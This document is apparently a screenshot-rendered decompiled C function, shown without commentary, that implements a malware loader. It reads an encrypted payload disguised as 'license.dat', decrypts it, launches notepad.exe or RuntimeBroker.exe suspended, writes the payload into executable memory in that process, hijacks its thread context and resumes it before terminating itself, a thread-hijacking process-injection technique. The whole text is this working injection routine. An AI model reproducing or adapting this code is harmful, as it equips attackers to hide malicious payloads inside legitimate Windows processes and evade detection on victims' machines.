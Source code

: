 ```
  char v23[13]; // [rsp+1C3h] [rbp-4E5h] BYREF
  _DWORD v24[62]; // [rsp+1D0h] [rbp-4D8h] BYREF
  void *v25; // [rsp+2C8h] [rbp-3E0h]

  strcpy(v23, "VirtualAlloc");
  strcpy(v22, "SetThreadContext");
  strcpy((char *)&v21.m256_f32[4] + 3, "ResumeThread");
  strcpy((char *)&v21, "GetThreadContext");
  strcpy(ModuleName, "kernel32.dll");
  ModuleHandleA = GetModuleHandleA(ModuleName);
  ProcAddress = GetProcAddress(ModuleHandleA, (LPCSTR)&v21);
  v1 = GetModuleHandleA(ModuleName);
  v12 = GetProcAddress(v1, v22);
  v2 = GetModuleHandleA(ModuleName);
  GetProcAddress(v2, v23);
  v3 = GetModuleHandleA(ModuleName);
  v11 = GetProcAddress(v3, (LPCSTR)&v21.m256_f32[4] + 3);
  v4 = (const char *)sub_1800058F0();
  strcpy(Destination, v4);
  strcat(Destination, "\\license.dat");
  Stream = fopen(Destination, "rb");
  for ( i = 0; fread((void *)(i + qword_18000B230), 1uLL, 1uLL, Stream); ++i )
    ;
  fclose(Stream);
  v17 = i + 1;
  VirtualAlloc(0LL, i + 1, 0x1000u, 2u);
  v19 = 856536534;
  memset(&v18, 0, sizeof(v18));
  lpBuffer = (LPCVOID)sub_1800055D0(qword_18000B230, 22, 12, (unsigned int)&v19, (__int64)&v18, (__int64)&v17, 2);
  memset(StartupInfo, 0, sizeof(StartupInfo));
  if ( (unsigned int)sub_180005F00() )
  {
    sub_180005FF0();
    CreateProcessA(0LL, "notepad.exe", 0LL, 0LL, 0, 0x44u, 0LL, 0LL, (LPSTARTUPINFOA)StartupInfo, &ProcessInformation);
  }
  else
  {
    CreateProcessA(
      0LL,
      "RuntimeBroker.exe",
      0LL,
      0LL,
      0,
      0x44u,
      0LL,
      0LL,
      (LPSTARTUPINFOA)StartupInfo,
      &ProcessInformation);
  }
  v24[12] = 65539;
  ((void (__fastcall *)(HANDLE, _DWORD *))ProcAddress)(ProcessInformation.hThread, v24);
  lpBaseAddress = VirtualAllocEx(ProcessInformation.hProcess, 0LL, v17, 0x1000u, 0x40u);
  WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, lpBuffer, v17, &NumberOfBytesWritten);
  v25 = lpBaseAddress;
  ((void (__fastcall *)(HANDLE, _DWORD *))v12)(ProcessInformation.hThread, v24);
  ((void (__fastcall *)(HANDLE))v11)(ProcessInformation.hThread);
  CloseHandle(ProcessInformation.hThread);
  CloseHandle(ProcessInformation.hProcess);
  CurrentProcess = GetCurrentProcess();
  return TerminateProcess(CurrentProcess, 0);
```